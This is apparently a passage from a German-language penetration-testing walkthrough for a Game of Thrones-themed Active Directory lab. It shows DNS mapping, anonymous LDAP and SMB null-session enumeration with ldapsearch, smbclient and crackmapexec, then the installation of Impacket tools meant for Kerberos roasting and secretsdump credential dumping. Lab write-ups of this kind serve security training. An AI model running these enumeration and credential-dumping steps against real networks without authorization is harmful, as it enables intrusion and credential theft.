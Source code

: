 **Erwartete DNS-Struktur:**
```
sevenkingdoms.local      → 192.168.20.10 (KINGSLANDING)
north.sevenkingdoms.local → 192.168.20.11 (WINTERFELL)
essos.local              → 192.168.20.12 (MEEREEN)
```

#### LDAP-Reconnaissance
```bash
# Anonymous LDAP Root DSE abfragen
ldapsearch -x -H ldap://192.168.20.10 -s base
ldapsearch -x -H ldap://192.168.20.11 -s base
ldapsearch -x -H ldap://192.168.20.12 -s base

# Naming Contexts identifizieren
ldapsearch -x -H ldap://192.168.20.10 -s base namingContexts
```

**Gefundene Naming Contexts:**
- `DC=sevenkingdoms,DC=local`
- `DC=north,DC=sevenkingdoms,DC=local`
- `DC=essos,DC=local`

#### SMB-Enumeration
```bash
# SMB-Shares enumerieren
smbclient -L //192.168.20.10 -N
smbclient -L //192.168.20.11 -N
smbclient -L //192.168.20.12 -N
smbclient -L //192.168.20.22 -N
smbclient -L //192.168.20.23 -N

# CrackMapExec für umfassende SMB-Enumeration
crackmapexec smb 192.168.20.0/24 --shares
crackmapexec smb 192.168.20.0/24 --users
```

---

## Phase 2: Weaponization (Waffenvorbereitung)

### 2.1 Kerberos-Angriffs-Tools

#### Installation der Impacket-Suite
```bash
# Auf Kali Linux (meist bereits installiert)
apt update && apt install python3-impacket

# Alternativ via pip
pip3 install impacket

# Wichtige Tools verifizieren
which GetUserSPNs.py
which GetNPUsers.py
which secretsdump.py
```
